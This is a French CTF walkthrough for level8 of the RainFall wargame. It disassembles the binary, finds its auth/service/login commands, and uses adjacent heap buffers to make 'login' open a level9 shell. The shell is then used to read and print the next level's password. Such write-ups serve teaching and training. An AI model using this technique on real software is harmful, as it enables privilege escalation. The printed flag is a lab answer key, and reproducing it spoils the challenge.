 ## Démarches

- Avec `objdump -d level8` (ou `disass main` dans gdb) et `strings level8`, on peut décortiquer le fonctionnement du programme.
    ```
    %p, %p
    auth
    reset
    service
    login
    /bin/sh
    Password:
    ```
- Gdb-peda nous permet de connaitre l'adresse de l'appel à un nouveau shell :
    - `find "/bin/sh"`
    ```
    Searching for '/bin/sh' in: None ranges
    Found 3 results, display max 3 items:
    level8 : 0x8048833 ("/bin/sh")
    level8 : 0x8049833 ("/bin/sh")
    libc : 0xb7f8cc58 ("/bin/sh")
    ```
    - `objdump -d level8 | grep "0x8048833"`
        >       80486ee:	c7 04 24 33 88 04 08 	movl   $0x8048833,(%esp)

    - Dans gdb, on peut run le binaire (avec un breakpoint en début de main), et jump directement à l'adresse  de l'appel : `jump *0x80486ee`
    - On obtient bien un shell, reste à trouver comment y parvenir en dehors de gdb

- `objdump -d level8 | grep "cmp"`
    ```
    80485cf:	f3 a6                	repz cmpsb %es:(%edi),%ds:(%esi)
    8048656:	f3 a6                	repz cmpsb %es:(%edi),%ds:(%esi)
    804868c:	f3 a6                	repz cmpsb %es:(%edi),%ds:(%esi)
    80486c9:	f3 a6                	repz cmpsb %es:(%edi),%ds:(%esi)
    ```
    Dans gdb-peda, on ajoute un breakpoint pour chacune de ces comparaisons, on peut alors observer que chacune compare la chaine récupérée avec fgets avec :
      
    - `auth `
    - `reset`
    - `service`
    - `login`

- si la chaine commence par `auth `, la longueur du reste de la chaine est aussi comparée à `1e` soit 30, puis copiée dans `auth` si elle remplie les conditions
  >     8048625:	83 f8 1e             	cmp    $0x1e,%eax
  
- si la chaine est `login`, le programme teste si le 32ème (*0x20s*) caractère de `auth` est différent de `\0`
  >     => 0x80486e7 <main+387>:	mov    eax,DWORD PTR [eax+0x20] 
  Si c'est le cas, un nouveau shell est lancé, sinon le programme affiche `Password:`

- Le programme affichant les adresses des variables `auth` et `service`, on peut remarquer qu'elles se suivent sur la stack. On peut donc appeler *auth* (suivi d'un espace) puis remplir *service* d'au moins 32 caractères, et enfin lancer `login` qui accèdera au 32ème caractères de *auth* soit un caractères de la chaine *service* :
```
level8@RainFall:~$ ./level8
    (nil), (nil)
    auth
    0x804a008, (nil)
    service 12345678901234567890123456789012345
    0x804a008, 0x804a018
    login
    $ whoami
    level9
    $ pwd
    /home/user/level8
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    $
```


<br>
----
## Ressources